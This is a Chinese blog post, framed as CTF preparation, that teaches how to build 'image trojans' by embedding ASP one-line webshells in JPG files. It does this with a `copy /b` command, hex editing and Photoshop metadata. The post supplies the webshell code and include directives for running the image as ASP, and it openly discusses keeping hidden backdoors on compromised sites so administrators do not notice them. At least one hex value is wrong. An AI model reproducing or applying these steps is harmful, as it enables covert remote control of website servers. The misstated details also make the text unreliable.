

# 制作图片马

[2018-11-20]()

## [](#前言 "前言")前言

打CTF遇到需要图片马的题，现学一下如何制作图片马。  

## [](#0x01-Copy命令 "0x01 Copy命令")0x01 Copy命令

先准备两个东西：

* 1.asp `<%eval request("value") %>`
* 1.jpg 随便一个图片

打开cmd，输入命令：

```
copy 1.jpg/b+1.asp/a 2.jpg
```


然后对比`1.png`和`2.png`的源码

* 1.png  
  

* 2.png  
  

且`2.png`可以正常打开，没有影响

把以下代码放入目标网站，即可按asp执行。

```
<% #include files=”2.jpg”%>
```

* * *

## [](#0x02-Uedit32 "0x02 Uedit32")0x02 Uedit32

我们通常在得到webshell之后都想给自己留个后门，等下次或以后有用得到的时候再进来看看。但如果直接加入一句话木马`<%execute request("value")%>`到asp文件中时，在该页面上就会出错

然后换个思路，使用插入一句话木马的图片做我们的后门。而且我们如果有足够的权限的话（网站中的文件可写），就直接把网站原有的图片变成后门，然后在那个asp文件中加入调用图片后门的代码：  
<!--#include file="图片后门地址"-->  
这样就没有上面的“类型不匹配: ‘execute’”错误了，而且也更好的隐藏了我们的后门。

当我们直接将一句话木马的asp文件改成jpg或gif文件的时候，这个图片文件是打不开的，很容易被管理员发现。换一种方法：制作可以显示图片内容的图片格式后门。

1.  准备工作：

    * 1.jpg\(随便一张图片\)
    * 一句话木马：`<%execute request("value")%>`
    * Script标签： `<script runat=server language=javascript>内容</script>`
    * 调用后门代码：`<!-- #include file="图片地址"-->`
    * 工具：UltraEdit

2.  开始制作：  
    使用UltraEdit打开1.jpg文件，找到`<%`和`%>` 其中`<%`的十六进制代码是`3E 25`,`%>`的十六进制代码是`25 3E`，然后把25改成00



然后将script标签代码  
\&lt;\%execute request\(“value”\)\%\&gt;  
转换为十六进制，粘贴到1.jpg的十六进制代码的最下面。必须粘贴到最下面，否则就把图片破坏了。  
最后保存退出，图片后门就做成了。

注：如果网站的asp网页可以被写入，那将`<!--#include file="1.jpg"-->`直接插入到网页中，这样这个网页的url就成了使用菜刀连接的后门地址了；

## [](#0x03-PS插入 "0x03 PS插入")0x03 PS插入

1.  用PS打开一张图片
2.  点击文件->文件简介
3.  然后插入需要的木马代码
4.  然后保存即可
